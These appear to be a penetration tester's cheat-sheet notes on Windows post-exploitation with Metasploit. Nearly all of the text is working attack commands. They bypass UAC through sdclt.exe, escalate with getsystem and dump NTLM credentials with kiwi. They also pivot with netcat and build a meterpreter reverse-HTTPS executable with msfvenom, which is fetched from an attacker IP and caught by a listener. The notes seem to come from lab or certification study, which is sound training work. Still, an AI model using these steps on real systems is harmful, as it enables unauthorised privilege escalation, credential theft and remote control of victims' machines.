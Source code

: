 search for UAC bypass modules in meterpreter (UAC = user account control)
```
search UAC
```

One very effective UAC bypass on modern Windows systems is exploit/windows/local/bypassuac_sdclt, which targets the Microsoft binary sdclt.exe
This binary can be abused to bypass UAC by spawning a process with integrity level High

```
use exploit/windows/local/bypassuac_sdclt
show options
set SESSION 7 (find number by running sessions to bind to our session)
set LHOST 192.168.119.4
run
```

now if we open a shell and get the tokenIntegrityLevel, it says High
we can background the sessions again and load modules
```
use exploit/multi/handler
run
getsystem
```

get some NTLM hashes (use kiwi, provides same functionality as mimikatz)
```
load kiwi
help 
creds_msv (kiwi option)
```

enum host file
```
search host
use post/windows/gather/enum_hostfile
```

pivoting with metasploit
```
nc 192.168.225.223 4444
```

look for other networks to find other machines
```
ipconfig
```

create non-staged windows payload and download on host
```
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=192.168.45.181 LPORT=443 -f exe -o met.exe 
iwr -uri http://192.168.45.181/met.exe -Outfile met.exe
```

in msfconsole
```
use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_https
set LPORT 443
run
bg # once connected
```
